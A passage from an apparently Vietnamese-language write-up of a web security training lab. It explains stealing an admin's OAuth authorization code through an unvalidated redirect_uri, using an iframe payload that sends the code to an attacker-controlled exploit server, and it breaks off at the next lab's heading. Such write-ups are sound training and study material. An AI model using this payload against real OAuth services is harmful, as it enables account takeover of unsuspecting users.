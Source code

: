 To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.
```
* Exploit:

Theo dõi hành vi thực hiện thao tác login hệ thống:
- Lần đăng nhập đầu tiên, hệ thống redirect ta đến trang đăng nhập bằng tài khoản Social Media
- Thực hiện logout, từ lần đăng nhập thứ 2 thì hệ thống tự động login chúng ta vào bằng tài khoản đã đăng nhập trước đó (Ko bắt nhập lại username/password nữa)

Ngoài ra theo dõi trên BurpSuite ta thấy:
- Kể từ lần đăng nhập thứ 2, ngay sau 1 request `/auth?client_id=...` sẽ là request đến `/oauth-callback?code=...`

<img width="394" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/9fd4251f-9014-4f85-807d-c7cef8f53eea">

- Khi thực hiện request đến `/auth?client_id=...` thì giá trị của tham số `redirect_uri` sẽ là địa chỉ link chuyển hướng trình duyệt của người dùng đến ở request sau đó.

<img width="463" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/84d85187-63c1-4d01-b36a-6135afe191ec">

- Request này không chịu bất kỳ một sự kiểm soát/kiểm tra nào, thực hiện gửi một vài Craft Request qua Repeater BurpSuite thì thấy đều thực hiện chuyển hướng người dùng sang link chỉ định trong `redirect_uri` kèm theo giá trị `code`.

<img width="493" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/5062ad0d-6ba7-4b95-9d3d-62e68944ed43">

- Như vậy đặt giả thuyết là nếu ta truyền giá trị `redirect_uri` là một địa chỉ mà hacker kiểm soát thì hacker sẽ nhận được giá trị code này. Vậy nếu người dùng admin truy cập vào link `/auth?client_id=...` với `redirect_uri` là địa chỉ của hacker kiểm soát thì `code` của Admin sẽ bị Hacker chiếm được.

- Lab cho ta một Exploit Server để deliver link độc hại đến victim => Ta thực hiện gửi 1 link /exploit đến victim có nội dung như sau:

`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>`

- Deliver to victim => Check log access trên Exploit server ta thấy đã nhận được giá trị code của victim:

<img width="634" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/995dca1e-d758-44ac-aeee-2341d9151ec5">

- Dùng code trên truy cập vào link `/oauth-callback?code=...` trên trình duyệt, xác nhận đã login được vào hệ thống bằng user Admin.
- Thực hiện xóa user Carlos => LAB Solved!
<img width="606" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/651a0dc9-751a-4a4e-b98a-1af2a37220d9">

***
## 4. Lab: Stealing OAuth access tokens via an open redirect
* Content:
```